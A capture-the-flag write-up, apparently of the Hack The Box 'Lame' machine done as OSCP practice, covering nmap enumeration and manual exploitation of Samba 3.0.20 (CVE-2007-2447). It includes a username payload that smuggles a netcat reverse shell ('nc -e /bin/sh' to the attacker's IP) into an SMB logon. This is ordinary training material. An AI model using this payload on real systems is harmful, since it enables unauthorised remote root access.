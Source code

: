 # Enumeration

## Nmap

My initial nmap scan reveals that this box is running FTP over port 21, SSH over port 22, and SMB over ports 139 and 445.

![Untitled](POC/nmap.png)

I see that Anonymous login is allowed over FTP, so I’ll start with that.

## FTP

Logging into FTP shows that the box is running vsftpd 2.3.4, and there appears to be no files in the directory. 

![Untitled](POC/ftp.png)

A quick search shows that vsftpd 2.3.4 is vulnerable to [backdoor command execution](https://www.exploit-db.com/exploits/49757). Before moving forward, I would still like to explore the SMB running on this box before attempting to exploit anything.

## SMB

Looking back at the nmap scan I can see that this box is running Samba 3.0.20. Another quick search shows that this version is vulnerable to a [command execution vulnerability](https://www.exploit-db.com/exploits/16320) as well.

Now that I have identified both vulnerabilities, I decide to start with the Samba exploit, as what I have seen about the exploit so far interests me the most.

# Exploitation

## Samba 3.0.20

Although there is a metasploit module for this exploit, I would like to better understand the vulnerability by exploiting it manually. Not only this, but on the OSCP metasploit is only allowed to be used once, so I think it is good practice to figure out how to manually exploit boxes like this one.

A quick search brings up this [exploit](https://github.com/amriunix/CVE-2007-2447) on github. Looking at the python code, it seems like the exploit is performed by connecting to SMB using a username of `/=`nohup [payload]`` . Since I would like a reverse shell back to my system, ill make my payload execute `/bin/sh` through netcat, connecting back to my machine over port 1234.

```bash
"./=`nohup nc -e /bin/sh 10.10.14.2 1234`"
```

To find out what shares can be accessed, Ill run smbmap on the box.

```bash
smbmap -H lame.htb
```

The results show me that only the `/tmp` share can be accessed, without proper credentials, so thats what Ill connect to. I start up a netcat listener over port 1234 to catch my shell and connect to the share using `smbclient`. Once I’m connected, I issue the `logon` command followed by my payload. I’m asked for a password, so I try hitting enter to see what happens.

![Untitled](POC/smb.png)

I get a connection back to my listener with a shell. A whoami check reveals that this is a root shell, no escalation needed!

![Untitled](POC/root.png)

## User Flag

Ill navigate to the home directory and find a user named makis. This user’s home directory contains the user flag.

![Untitled](POC/user_flag.png)

## Root Flag

Lastly, I’ll grab the root flag from the root directory!

![Untitled](POC/root_flag.png)
